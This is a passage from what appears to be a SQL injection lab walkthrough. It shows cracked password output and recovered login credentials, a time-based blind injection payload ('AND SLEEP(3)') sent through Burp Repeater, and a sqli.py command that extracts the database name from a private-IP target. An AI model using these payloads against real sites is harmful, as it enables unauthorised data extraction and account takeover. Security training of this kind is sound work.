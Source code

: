 **Output:**

```
?:password
?:abc123

2 password hashes cracked, 0 left
```


***

### Final Credentials

```
admin:password
webadmin:abc123
guest:Password123!
```

✅ **Now test these credentials on the login page!**

***

## Step 11: Time-Based Injection (When No Visible Difference)

### When to Use This

If TRUE and FALSE conditions look **identical** (same text, same length, same status).

### Test Time Delay in Burp

**In Burp Repeater:**

```
GET /products.php?id=1' AND SLEEP(3)-- -
```

**Click "Send" and watch the timer at bottom**

**Expected**: Request takes ~3.2 seconds

✅ **Time-based injection confirmed**

***

### Use Time-Based Template

```bash
python3 sqli.py \
  --url "http://192.168.45.123/products.php" \
  --param id --base 1 \
  --template "' OR IF(({condition}),SLEEP(3),0)-- -" \
  --time-threshold 2.0 \
  --action extract \
  --query "database()" \
  --maxlen 32
```
